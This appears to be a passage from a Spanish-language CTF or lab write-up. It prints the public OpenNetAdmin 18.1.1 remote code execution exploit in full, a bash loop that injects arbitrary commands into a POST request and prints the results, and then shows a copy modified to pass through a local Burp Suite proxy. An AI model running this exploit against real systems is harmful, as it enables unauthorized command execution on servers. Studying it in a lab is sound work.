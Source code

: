 <span style="color:orange">Esto es lo que hace tu le das un input que lo mete en la variable cmd que con una peticion por post ala url que tu le pasas al programa que es el primer argumento y le inyecta un comando y te lo interpreta</span>

```bash
❯ catn OpenNetAdmin.sh
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Para verlo de forma manual vamos a usar `Burpsuite`

Vamos a modificar el `exploit` para que burpusuite intercepte la peticion ya que escucha por el equipo local en el puerto `8080`

```bash
❯ catn OpenNetAdmin.sh
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent --proxy http://127.0.0.1:8080 -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
